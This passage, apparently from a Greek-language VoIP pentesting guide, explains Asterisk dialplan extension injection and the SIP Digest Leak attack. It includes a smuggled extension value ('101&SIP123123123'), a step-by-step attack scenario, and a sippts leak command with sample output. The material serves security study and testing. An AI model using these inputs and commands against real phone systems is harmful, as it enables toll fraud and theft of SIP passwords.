 ### Εισαγωγή Επέκτασης

Χρησιμοποιώντας μια επέκταση όπως:
```scss
exten => _X.,1,Dial(SIP/${EXTEN})
```
Όπου **`${EXTEN}`** είναι η **επέκταση** που θα κληθεί, όταν εισαχθεί η **ext 101** αυτό είναι το που θα συμβεί:
```scss
exten => 101,1,Dial(SIP/101)
```
Ωστόσο, αν το **`${EXTEN}`** επιτρέπει την εισαγωγή **περισσότερων από αριθμούς** (όπως σε παλαιότερες εκδόσεις του Asterisk), ένας επιτιθέμενος θα μπορούσε να εισάγει **`101&SIP123123123`** για να καλέσει τον αριθμό τηλεφώνου 123123123. Και αυτό θα ήταν το αποτέλεσμα:
```scss
exten => 101&SIP123123123,1,Dial(SIP/101&SIP123123123)
```
Επομένως, ένα κάλεσμα στην επέκταση **`101`** και **`123123123`** θα σταλεί και μόνο ο πρώτος που θα λάβει το κάλεσμα θα εγκαθιδρυθεί... αλλά αν ένας εισβολέας χρησιμοποιήσει μια **επέκταση που παρακάμπτει οποιαδήποτε αντιστοίχιση** που πραγματοποιείται αλλά δεν υπάρχει, θα μπορούσε να **εισχωρήσει ένα κάλεσμα μόνο στο επιθυμητό νούμερο**.

## Ευπάθεια SIPDigestLeak

Η διαρροή SIP Digest είναι μια ευπάθεια που επηρεάζει ένα μεγάλο αριθμό των τηλεφώνων SIP, συμπεριλαμβανομένων τόσο των υλικού όσο και των λογισμικού τηλεφώνων IP, καθώς και των προσαρμογέων τηλεφώνου (VoIP σε αναλογικό). Η ευπάθεια επιτρέπει τη **διαρροή της απάντησης πιστοποίησης Digest**, η οποία υπολογίζεται από τον κωδικό πρόσβασης. Έπειτα είναι δυνατή μια **επίθεση κωδικού πρόσβασης εκτός σύνδεσης** και μπορεί να ανακτήσει τους περισσότερους κωδικούς πρόσβασης με βάση την απάντηση πρόκλησης.

**[Σενάριο ευπάθειας από εδώ**](https://resources.enablesecurity.com/resources/sipdigestleak-tut.pdf):

1. Ένα τηλέφωνο IP (θύμα) ακούει σε οποιαδήποτε θύρα (για παράδειγμα: 5060), δέχεται τηλεφωνικές κλήσεις
2. Ο εισβολέας στέλνει ένα INVITE στο τηλέφωνο IP
3. Το τηλέφωνο θύμα αρχίζει να χτυπάει και κάποιος απαντά και κλείνει το τηλέφωνο (επειδή κανείς δεν απαντά στο άλλο άκρο)
4. Όταν το τηλέφωνο κλείνεται, το **τηλέφωνο θύμα στέλνει ένα BYE στον εισβολέα**
5. Ο **εισβολέας εκδίδει μια απάντηση 407** που **ζητά πιστοποίηση** και εκδίδει μια πρόκληση πιστοποίησης
6. Το **τηλέφωνο θύμα παρέχει μια απάντηση στην πρόκληση πιστοποίησης** σε ένα δεύτερο BYE
7. Ο **εισβολέας μπορεί στη συνέχεια να εκδώσει μια επίθεση βίας** στην απάντηση πρόκλησης στον τοπικό του υπολογιστή (ή σε κατανεμημένο δίκτυο κλπ.) και να μαντέψει τον κωδικό πρόσβασης

* **Διαρροή SIPPTS** από [**sippts**](https://github.com/Pepelux/sippts)**:** Η διαρροή SIPPTS εκμεταλλεύεται την ευπάθεια διαρροής SIP Digest που επηρεάζει ένα μεγάλο αριθμό των τηλεφώνων SIP. Το αποτέλεσμα μπορεί να αποθηκευτεί σε μορφή SipCrack για να εκτελεστεί με brute force χρησιμοποιώντας το εργαλείο dcrack του SIPPTS ή το εργαλείο SipCrack.
```bash
sippts leak -i 10.10.0.10

[!] Target: 10.10.0.10:5060/UDP
[!] Caller: 100
[!] Callee: 100

[=>] Request INVITE
[<=] Response 100 Trying
[<=] Response 180 Ringing
[<=] Response 200 OK
[=>] Request ACK
... waiting for BYE ...
[<=] Received BYE
[=>] Request 407 Proxy Authentication Required
[<=] Received BYE with digest
```